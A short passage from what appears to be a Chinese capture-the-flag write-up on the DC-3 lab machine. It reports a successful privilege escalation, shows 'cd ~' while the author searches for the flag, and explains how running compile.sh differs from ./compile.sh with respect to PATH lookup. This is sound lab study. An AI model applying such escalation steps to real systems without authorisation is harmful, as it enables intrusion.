
提权成功，查找flag
1 | cd ~ |

学习一下compile.sh和./compile.sh的区别：
compile.sh：Shell 会按照 PATH 环境变量定义的目录顺序搜索可执行文件。例如，若 PATH=/usr/local/bin:/usr/bin:/bin，Shell 会依次在这些目录中查找 compile.sh，如果文件在当前目录但不在 PATH 中，Shell 会报错，为什么默认不搜索当前目录？，防止恶意程序劫持命令（例如当前目录下的恶意 ls 覆盖系统命令）。
./compile.sh：./ 表示显式指定当前目录，Shell 会直接执行当前目录下的 doubleput 文件，完全绕过 PATH 搜索，无论 PATH 如何设置，只要当前目录有 doubleput 且用户有执行权限，就能运行。
真滴是越学发现不懂的越多😭😭😭
参考文章：https://gtl-ju.github.io/2023/09/08/DC-3%E6%89%93%E9%9D%B6%E8%AE%B0%E5%BD%95/
光荣在于平淡，艰辛在于漫长